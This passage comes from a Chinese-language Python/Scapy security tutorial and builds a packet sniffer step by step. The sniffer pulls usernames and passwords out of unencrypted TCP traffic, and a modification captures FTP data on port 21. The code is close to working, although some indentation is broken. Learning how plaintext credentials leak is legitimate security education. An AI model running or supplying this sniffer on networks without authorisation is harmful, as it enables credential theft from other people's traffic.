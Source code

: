在这里，我们使用数据中的关键字进行搜索，并提取有效负载中的用户名和密码（如果存在）

5.  现在，创建一个函数来解析嗅探到的数据包：

```
def pkt_parser(pkt):    
    if pkt.haslayer(Ether) and pkt.haslayer(Raw) and not pkt.haslayer(IP) and not pkt.haslayer(IPv6):
           pass       
      if pkt.haslayer(TCP) and pkt.haslayer(Raw) and pkt.haslayer(IP):
          pkt[TCP].payload
          mail_packet = str(pkt[TCP].payload)    
          body = str(pkt[TCP].payload)
          user_passwd = get_login_pass(body)
          if user_passwd != None:
              print(parse.unquote(user_passwd[0]).encode("utf8"))
              print(parse.unquote( user_passwd[1]).encode("utf8"))
      else:
          pass  
```

首先，我们将忽略没有 IP 层的原始数据包。然后我们得到 IP 层并提取有效负载，然后将其传递给`get_login_pass()`方法以提取凭证。

6.  现在，开始嗅探所提供接口中的数据包：

```
try:
    sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

7.  现在，使用所需权限运行脚本：

```
sudo python3 pass-sniffer.py  
```

8.  我们可以更新此脚本以提取 FTP 凭据，只需稍作修改：

```
if pkt[TCP].dport == 21 or pkt[TCP].sport ==21:
   data = pkt[Raw].load
   print(str(data))  
```

这将打印 FTP 数据。我们可以在上面运行正则表达式匹配来获取用户名和密码。